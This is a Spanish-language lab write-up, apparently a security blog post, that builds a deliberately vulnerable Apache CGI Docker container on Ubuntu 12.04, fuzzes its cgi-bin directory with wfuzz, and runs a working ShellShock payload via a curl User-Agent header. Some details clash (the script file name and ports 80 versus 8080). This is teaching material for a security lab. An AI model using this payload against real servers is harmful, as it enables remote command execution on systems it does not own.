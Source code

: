 ```yaml
---
title: Laboratorio - ShellShock
author: cotes
date: 2023-06-25 17:51:00 +0800
categories: [Laboratorio, 'ShellShock']
tags: ['ShellShock', OWASP]
math: true
mermaid: true
image:
  path: /assets/images/Laboratorios/shellshock/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: ShellShock Logo
---
```


Esta vulnerabilidad afecta a bash antiguas y se aprovecha del funcionamiento de CGI. CGI permite ejecutar scripts externos, usualmente escritos en bash, cmd, perl y cgi, permitiendo a un atacante ejecutar comandos modificando la cabecera User-Agent en una petición enviada al servidor

* **Laboratorio** 🔬

1. Crearemos un archivo **Dockerfile** con el siguiente contenido

```dockerfile
# Base image
FROM ubuntu:12.04.5
# Actualizar paquetes y herramientas
RUN apt-get update && apt-get upgrade -y
# Instalar Apache y configurarlo para ejecutar CGI
RUN apt-get install -y apache2 && \
    a2enmod cgi
# Crear un archivo CGI vulnerable a Shellshock
RUN echo '#!/bin/bash\necho "Content-type: text/html"\necho\necho "<html><body><h2>Shellshock Vulnerable CGI</h2><pre>"\necho\necho "Vulnerable to Shellshock"\necho\necho "</pre></body></html>"' > /usr/lib/cgi-bin/shellshock.cgi && \
    chmod +x /usr/lib/cgi-bin/new.cgi
# Exponer el puerto 80
EXPOSE 80
# Iniciar el servidor Apache al ejecutar el contenedor
CMD ["apache2ctl", "-D", "FOREGROUND"]
```

a. Creamos un imagen **docker build -t <Nombre Imagen> .**

b. Desplegamos el contenedor **docker run -d -p 80:80 <Nombre Imagen>**

* Veremos que ya tenemos un servicio **Apache** ejecutandose en nuestra máquina host en el puerto 8080

![](/assets/images/Laboratorios/shellshock/apache.png)


2. El directorio que aloja los **scripts que se van a ejecutar** es **`/cgi-bin/`**, si accedemos a el veremos un código de estado **`403 Forbidden`**, esto nos indica que el **directorio existe** pero no tenemos capacidad de listar su contenido, sin embargo, si conocemos el nombre de un script podemos acceder y ejecutarlo.

3. Como no conocemos el nombre de un script, lo que haremos es **fuzzear** por nombres y posibles extensiones (Esto solo por practicar, ya que en el archivo **Dockerfile** está el nombre del **script**)

```bash
wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -z list,cgi-sh-pl http://localhost/cgi-bi
n/FUZZ.FUZ2Z

000000055:   500        16 L     77 W       607 Ch      "new - cgi"
```
> Encontramos un **script** con nombre **`new.cgi`**

* **-c:** Formato Colorizado. 🎨
* **-t <N>:** N Hilos a usar. 🧵
* **--hc=4040:** Oculatamos las respuestas con código de estado **404 Not Found**. ❌
* **-w <Diccionario>:** Indicamos un diccionario para que fuzee.
* **-z list,cgi-sh-pl:** Indicamos las extensiones por las cuales fuzeará.
* **http://localhost:8080/cgi-bin/FUZZ.FUZ2Z**: FUZZ -> Nombres del diccionario, FUZ2Z -> Cada extensión indicada.


4. Ahora ya podemos llevar a cabo el ataque **Shellshock**, sacamos el **payload** de este [post](https://blog.cloudflare.com/inside-shellshock/), usaremos **cURL**

* **Comando:** `curl -s -X GET "http://localhost/cgi-bin/new.cgi" -H "User-Agent:  () { :; }; echo;  /usr/bin/whoami"`

![](/assets/images/Laboratorios/shellshock/whoami.png)

* **Recomendaciones**
  + [x] Esta vulnerabilidad se da únicamente en versiones muy antiguas de bash.
  + [x] Si no vemos el output del comando, debemos añadir uno o dos **echo;**.
  + [x] Si queremos ejecutar cualquier comando es recomendable hacerlo con su ruta absoluta.